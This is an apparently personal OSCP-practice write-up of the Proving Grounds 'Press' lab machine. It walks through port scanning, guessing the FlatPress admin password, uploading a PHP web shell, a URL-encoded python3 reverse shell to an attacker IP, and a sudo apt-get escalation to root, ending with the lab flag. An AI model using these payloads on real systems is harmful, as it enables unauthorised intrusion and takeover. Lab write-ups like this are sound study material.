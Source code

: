 ```yaml
---
Date: 2024-10-12
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.215.29
Writeup: https://medium.com/@felipeasz007/proving-grounds-pg-presswriteup-93c6d096bae6
---
```

# Press
This was by far the easiest box I've done, and besides needing a nudge on the password guessing I didn't need the walkthrough at all. I'll need to remember to test `password` as well as `admin`, and I may need to look at short list or a quick `hydra` script to test the most obvious credentials quickly. 

Regardless, as soon as I had access and confirmed I was dealing with Flatpress 1.2.1 I had a multitude of exploit options available - I ended up going with the RCE specifically for 1.2.1 (rather than another for 1.3) and had a little bit of trouble getting command execution until I tweaked the PHP file so it included "php" in it and put the `system` command all on one line.

That allowed me to establish the reverse shell, and then as soon as I ran `sudo -l` I was sure it couldn't be this easy. With no password required to run `apt-get` my first thought was that I'd be able to pull anything onto this system, but checking GTFObins provided an even simpler solution to getting `root`.

# Resolution summary
- Ran Nmap to identify ports `22`, `80` & `8089`
- Visited http (`8089`) & identified `FlatPress pf-1.2.1`
- Used password guesses access to admin panel
- Uploaded `shell2.php` file and navigated to command execution
- Established reverse shell with command execution
- Checked `sudo` privileges and found GTFObin for `apt-get`
- Used `apt-get changelog` to open shell as `root` 
## Improved skills
- password guessing
- Writing PHP
## Used tools
- nmap

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Press.nmap 192.168.215.29 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Lugx Gaming Shop HTML5 Template
8089/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-generator: FlatPress fp-1.2.1
|_http-title: FlatPress
|_http-favicon: Unknown favicon MD5: 315957B26C1BD8805590E36985990754
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.4p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.56)
- Navigated to `http://192.168.215.29:80`
![[Cybersecurity-Resources/images/Pasted image 20241012152847.png]]
 - Navigated to `http://192.168.215.29/contact.html` and attempted to send message through contact form
![[Cybersecurity-Resources/images/Pasted image 20241012153714.png]]
## Port 8089 - HTTP (Apache 2.4.56)
- Navigated to `http://192.168.215.96:9090` and identified `FlatPress pf-1.2.1`
![[Cybersecurity-Resources/images/Pasted image 20241012152906.png]]
- Navigated to `http://192.168.215.96:9090/login/php` and attempted login with credentials `admin:admin`
![[Cybersecurity-Resources/images/Pasted image 20241012153036.png]]
- Attempted login with credentials `admin:password` and got access
![[Cybersecurity-Resources/images/Pasted image 20241012154746.png]]
---
# Exploitation
## Malicious File Upload
- Found RCE vulnerability for `FlatPress 1.2.1` at [https://github.com/flatpressblog/flatpress/issues/152] and followed PoC instructions
- Created `shell.php` with contents;
```
GIF89a;
<?php system($_GET['cmd']);?>
```
- Navigated to `http://192.168.215.29:8089/admin.php?p=uploader` and successfully uploaded `shell2.php`
![[Cybersecurity-Resources/images/Pasted image 20241012155538.png]]
- Navigated to uploaded file at `http://192.168.215.29:8089/fp-content/attachs/shell2.php` 
![[Cybersecurity-Resources/images/Pasted image 20241012155809.png]]
- Added `?cmd=whoami` to address bar and found exploit working
![[Cybersecurity-Resources/images/Pasted image 20241012161115.png]]
- Ran `nc -nvlp 4444` to start listener on port 4444
- Added url-encoded python3 reverse shell to address bar command `?cmd=python3%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%22192.168.45.250%22%2C4444%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fsh%22%29%27` and achieved reverse shell 
![[Cybersecurity-Resources/images/Pasted image 20241012161855.png]]
---
# Privilege Escalation
## Local Enumeration
Ran `sudo -l` and identified `www-data` can run `/usr/bin/apt-get` without password
![[Cybersecurity-Resources/images/Pasted image 20241012162013.png]]
## Privilege Escalation vector
- Identified GTFObins for [apt-get](https://gtfobins.github.io/gtfobins/apt-get/) and found elevated privileges could be maintained. Ran the following commands;
```
sudo /usr/bin/apt-get changelog apt
!/bin/sh
```
- Achieved `root` access and ran `cat /root/proof.txt` to print flag `b0f6bae4c11626f41dc028df71718383`
![[Cybersecurity-Resources/images/Pasted image 20241012162715.png]]
---
# Trophy & Loot
`root.txt` = `b0f6bae4c11626f41dc028df71718383`